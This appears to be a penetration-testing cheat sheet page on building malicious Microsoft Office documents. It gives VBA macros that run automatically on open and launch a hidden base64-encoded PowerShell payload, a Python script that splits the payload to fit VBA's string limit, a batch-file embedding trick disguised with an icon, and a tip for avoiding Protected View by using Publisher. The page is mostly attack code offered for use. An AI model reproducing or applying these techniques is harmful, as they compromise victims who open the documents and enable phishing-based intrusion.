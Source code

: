 # Macros

### Microsoft Word Macro Skeleton

View -> Macros -> Macros in Document -> Name -> Create

```visual-basic
Sub AutoOpen()
    RevMacro
End Sub

Sub Document_Open()
    RevMacro
End Sub

Sub RevMacro()
    Dim Str As String
    <payload here>
    CreateObject("Wscript.Shell").Run Str
End Sub
```

Functions Purposes:

* AutoOpen() = Open when a new document is opened
* Document\_Open() = Executed when Reopened
* CreateObject("Wscript.Shell").Run Str = Runs the payload
* Save As: Word 97-2003 Document

Save the document as `.docm` (Word Macro-Enabled Document) or older `.doc` (Word 97-2003 Document) and **NOT** as `.docx` format

💡 We can use the base64-encoded PowerShell payload of `MSFvenom` when generating a malicious HTA application.

{% hint style="info" %}
VBA has a 255-character limit for literal strings to solve this problem we can split the PowerShell command into multiple lines via a Python script:
{% endhint %}

```python
str = "powershell.exe -nop -w hidden -e <BASE64_PAYLOAD>"
n = 50
print(f'Str = "{str[:50]}"')
for i in range(50, len(str), n):
    print(f'Str = Str + "{str[i:i+n]}"')
```

```visual-basic
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
	Dim Str As String
	
	Str = "powershell.exe -nop -w hidden -e <SPLITTED_BASE64_PAYLOAD>"
	Str = Str + "<SPLITTED_BASE64_PAYLOAD>"
	...
	CreateObject("Wscript.Shell").Run Str
End Sub
```

> **Note**: the macro security warning only re-appears if the name of the document is changed.

* Embedding/Linking Object using Batch file:
* Word or Excel:
* _Insert > Object > Create from File_
* Import a Batch File

```batch
START powershell.exe -nop -w hidden -e <BASE64_PAYLOAD>
```

💡 **Tip**: _Display as icon > Change Icon_

* [**Protected View**](https://support.microsoft.com/en-us/topic/what-is-protected-view-d6f09ac7-e6b9-4495-8e43-2bbcdbcb6653?ui=en-us\&rs=en-us\&ad=us) Bypass: a sandbox feature that disables all editing and modifications in the document + blocks the execution of macros or embedded objects.

Malicious office docs are effective when served locally but when served from the Internet, i.e, an email download link, **Protected View** is enabled. However, **Microsoft Publisher** does not enable it so use Publisher instead.
